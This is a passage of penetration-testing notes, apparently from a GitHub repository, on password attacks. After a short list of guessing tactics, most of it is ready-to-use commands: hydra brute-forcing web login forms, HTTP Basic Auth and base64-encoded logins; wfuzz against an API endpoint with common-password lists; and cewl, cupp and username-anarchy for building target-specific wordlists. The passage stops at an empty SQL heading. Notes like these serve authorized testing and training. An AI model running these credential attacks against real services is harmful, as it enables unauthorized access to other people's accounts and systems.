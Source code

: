 
### Password Attack
- username as the password
- default password of the service
- weak passwords (admin, root, password123, Password...)
	- try the name of the service or username as password as well
- search passwords in ftp, smb, snmp, KeePass ...
- add rules to wordlists

brute force
```
hydra -l <user> -P <password> -s <port> <protocol>://<ip>

# http login pages
hydra -l user -P /usr/share/wordlists/rockyou.txt <IP> http-post-form "/index.php:fm_usr=user&fm_pwd=^PASS^:Login failed. Invalid"

hydra -l admin -P /usr/share/wordlists/rockyou.txt <IP> http-post-form -s 8080 "/login:password=^PASS^:Incorrect password."  

# HTTP Basic Authentication
hydra -I -V -C creds.txt -t 1 "http-get://<IP>:<PORT>/svn:A=BASIC:F=401"

# username and password encoded
hydra -I -f -L custom-wordlist.txt -P custom-wordlist.txt 'http-post-form://<url>:username=^USER64^&password=^PASS64^:C=/:F=403'

# API Key
wfuzz -z list,user1-yuser2-user3 -z file,/usr/share/wordlists/seclists/Passwords/2020-200_most_used_passwords.txt --basic FUZZ:FUZ2Z http://<domain>/api/v1/user > output.txt
```

wordlists
```
/usr/share/wordlists/fasttrack.txt
/usr/share/wordlists/rockyou.txt
```

create generate wordlist using cewl
```
cewl http://<IP>:<PORT>/ | grep -v CeWL > custom-wordlist.txt
cewl --lowercase http://<IP>:<PORT>/ | grep -v CeWL  >> custom-wordlist.txt
```

generate user wordlist base user info
```
userlistcreator.py

python3 cupp.py -i

username-anarchy --input-file ./user.txt > users.txt
```

### SQL
